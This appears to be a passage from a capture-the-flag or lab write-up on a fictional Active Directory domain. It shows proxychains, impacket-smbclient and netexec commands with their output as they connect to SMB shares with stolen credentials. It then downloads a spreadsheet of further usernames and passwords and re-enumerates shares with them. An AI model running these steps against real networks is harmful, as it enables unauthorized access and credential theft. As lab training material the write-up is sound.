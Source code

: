 We can connect to the SMB share and loot the `Castle_Guards_Schedule` share.

```
proxychains impacket-smbclient 'async.empire'/'Court_Jester_13':'jessisnaughty4u!'@SOUTHERN-TOWER.async.empire
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.10.11:445  ...  OK
Type help for list of commands
# shares
ADMIN$
C$
Castle_Guards_Schedule
IPC$
# use Castle_Guards_Schedule
# ls
drw-rw-rw-          0  Wed May  7 11:13:08 2025 .
drw-rw-rw-          0  Thu May  8 11:11:42 2025 ..
-rw-rw-rw-      10547  Wed May  7 11:13:05 2025 Castle_Guard_Lookout_Schedule.xlsx
-rw-rw-rw-       9716  Wed May  7 11:13:07 2025 New_Castle_Knights.xlsx
```

We can download this file and open it locally.

```
# get New_Castle_Knights.xlsx

ssconvert New_Castle_Knights.xlsx New_Castle_Knights.csv

cat New_Castle_Knights.csv                      
"🏰 New Castle Knight Credentials - Async Empire",,,,,
Name,Username,Password,"Referred By","Platoon No.","Commanding Officer"
Castle_Guard_29,Castle_Guard_29@async.empire,oZ5pLcXj1R,"Knight-Captain Thorne","Platoon 7","Commander Virel"
Castle_Guard_30,Castle_Guard_30@async.empire,vTxrY1cL0D,"Knight-Captain Elira","Platoon 9","Commander Halberd"
```

With either of the new users, we can re-enumerate the shares, but we find no new results.

```
proxychains -q nxc smb targets.txt -u 'Castle_Guard_29' -p 'oZ5pLcXj1R' --shares                              
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)                                                                                                                                                             
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Castle_Guard_29:oZ5pLcXj1R 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Castle_Guard_29:oZ5pLcXj1R 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule                 Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
```